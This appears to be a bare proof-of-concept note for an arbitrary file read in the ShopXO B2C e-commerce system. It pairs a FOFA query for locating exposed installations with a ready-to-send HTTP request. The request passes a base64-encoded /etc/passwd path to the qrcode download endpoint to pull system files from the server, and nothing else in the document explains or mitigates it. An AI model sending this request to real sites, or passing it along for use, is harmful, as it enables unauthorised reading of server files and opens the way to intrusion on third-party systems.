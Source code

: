FOFA
----

    app="ShopXO企业级B2C电商系统提供商"

POC
---

    GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
    Host:
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1